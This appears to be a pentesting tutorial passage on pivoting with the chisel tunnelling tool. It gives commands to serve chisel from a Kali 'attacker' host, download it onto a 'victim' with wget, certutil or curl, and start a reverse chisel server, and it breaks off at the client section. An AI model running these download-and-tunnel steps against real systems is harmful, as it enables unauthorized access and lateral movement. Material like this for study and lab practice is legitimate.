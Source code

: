 <pre class="language-bash"><code class="lang-bash"><strong>#Kali
</strong><strong>python3 -m http.server 80 #on attacker machine, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong>ssh ubuntu@10.10.10.5 #access to target 1
wget http://10.10.10.4/chisel #download chisel (if victim machine has Linux OS)
certutil -urlcache -split -f http://10.10.10.4/chisel #download chisel (if victim machine has Windows OS)
chmod +x chisel #give execution permission
</code></pre>

or transferring using **SSH** via:

```bash
scp chisel kali@10.10.10.5:/tmp #copy via ssh on /tmp victim machine directory 
chmod +x chisel #give execution permission (do it on both machines) 
```

or transferring using C**url**:

```bash
curl 10.10.10.4/chisel -o chisel
```

Finally, we can establish connection between attacker (Kali) and victim using chisel (Target 1):

#### Attacker Machine / Server

Solution 1 (i suggest it)

```bash
./chisel server --reverse -p 33 #on Kali
```

Solution 2

```bash
./chisel server --socks5 --reverse #on Kali
```

* PORT = port for the Chisel traffic
* socks5 = to setup a SOCKS5 proxy
* reverse = to tell Chisel to wait for a connection from a client

<div align="left">

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

</div>

#### Victim Machine / Client&#x20;
